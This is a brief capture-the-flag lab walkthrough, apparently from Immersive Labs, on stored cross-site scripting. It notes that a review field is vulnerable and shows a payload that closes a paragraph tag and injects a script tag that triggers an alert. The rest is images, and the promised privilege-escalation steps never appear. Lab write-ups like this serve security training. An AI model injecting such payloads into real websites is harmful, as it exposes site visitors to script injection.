 ```yaml
---
date: 2025-04-12
categories: [CTF, IML]
title: "IML - Cross-Site Scripting: Ep.3 – Stored XSS"
tags: ['privilege escalation', 'rce', 'xss']

description: "Cross-Site Scripting Ep.3 – S - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Cross-Site Scripting: Ep.3 – Stored XSS


![image1](../resources/506b5ad51e814f3fb46cfc6e75cb04e7.png)

![image2](../resources/b7bee66356d9418cb0c2b9c7599f6518.png)

- Review field is vulnerable

- Close the \<p\> tag and enter script tag
```javascript
</p><script>alert(11)</script>
```

![image3](../resources/ce195c3d9e2c44258c32b662d1edae1d.png)


![image4](../resources/bd9dc290ac0d4865845036142fe35bdc.png)